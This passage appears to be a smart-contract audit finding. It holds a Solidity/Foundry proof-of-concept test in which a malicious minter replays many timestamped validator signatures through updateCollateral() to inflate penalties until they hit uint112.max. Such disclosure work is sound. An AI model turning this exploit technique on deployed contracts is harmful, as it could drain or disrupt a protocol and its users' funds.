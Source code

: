 ```solidity
    // Using default test settings: mintRatio = 90%, penaltyRate = 1%, updateCollateralInterval = 2000.
    function test_penaltyForUndercollateralization() external {
        // 1. Minter1 deposits $100,000 t-bills, and mints 90,000 $M Tokens.
        uint initialTimestamp = block.timestamp;
        _minterGateway.setCollateralOf(_minter1, 100000e6);
        _minterGateway.setUpdateTimestampOf(_minter1, initialTimestamp);
        _minterGateway.setRawOwedMOf(_minter1, 90000e6);
        _minterGateway.setPrincipalOfTotalActiveOwedM(90000e6);

        // 2. Minter does not update for 4 updateCollateralIntervals, causing penalty for missing updates.
        vm.warp(initialTimestamp + 4 * _updateCollateralInterval);

        // 3. Minter fetches a lot of signatures from validator, each with different timestamp and calls `updateCollateral()` many times.
        //    Since the penalty for uncollateralization is counted every time, and would hit `uint112.max` at last.
        uint256[] memory retrievalIds = new uint256[](0);
        address[] memory validators = new address[](1);
        validators[0] = _validator1;

        for (uint i = 1; i <= 6000; ++i) {

            uint256[] memory timestamps = new uint256[](1);
            uint256 signatureTimestamp = initialTimestamp + i;
            timestamps[0] = signatureTimestamp;
            bytes[] memory signatures = new bytes[](1);
            signatures[0] = _getCollateralUpdateSignature(
                address(_minterGateway),
                _minter1,
                100000e6,
                retrievalIds,
                bytes32(0),
                signatureTimestamp,
                _validator1Pk
            );

            vm.prank(_minter1);
            _minterGateway.updateCollateral(100000e6, retrievalIds, bytes32(0), validators, timestamps, signatures);

            console.log("penalty:", i, _minterGateway.totalActiveOwedM(), _minterGateway.principalOfTotalActiveOwedM());
        }
    }
```

Note that in real use case, the penalty rate may lower (e.g. 0.1%), however, `log(2^112 / 36e8, 1.001) ~ 55656` is still a reasonable amount since there are 1440 minutes in 1 day (not to mention if the frequency for signature may be higher than once per minute). A malicious minter can still gather enough signatures for the attack.
